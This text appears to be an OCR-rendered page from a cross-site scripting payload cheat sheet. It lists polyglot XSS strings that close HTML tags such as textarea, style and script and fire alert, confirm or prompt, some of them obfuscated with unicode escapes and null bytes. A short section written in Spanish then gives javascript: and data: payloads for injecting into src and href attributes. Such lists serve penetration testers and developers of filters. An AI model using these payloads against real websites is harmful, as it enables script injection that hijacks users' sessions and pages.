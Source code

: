 ```
```
```
javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
```
```
javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
```
```
javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*
```
```
--></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*
```
```
/</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
```
```
javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
```
```
/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
```
```
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
```
```
<svg%0Ao%00nload=%09((pro\u006dpt))()//
```
```
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
```
```
javascript:"/*'/*`/*\" /*</title></style></textarea></noscript></noembed></template></script/-->&lt;svg/onload=/*<html/*/onmouseover=alert()//>
```
```
javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>
```
```
javascript:`//"//\"//</title></textarea></style></noscript></noembed></script></template>&lt;svg/onload='/*--><html */ onmouseover=alert()//'>`
```

## Source Injection

Úselo cuando la entrada aterrice como un valor de los siguientes atributos de etiqueta HTML: 

```
"href", "src", "data", "action" o "<form action=>""
```

El atributo "src" en las etiquetas de "script" puede ser:

```
src=URL

src="data:,alert(1)"

src=javascript:alert(1)

src='javascript:alert(1)'

src=‘javascript:alert(1)‘

src=’javascript:alert(1)’

src=‘javascript:alert(1)’
```
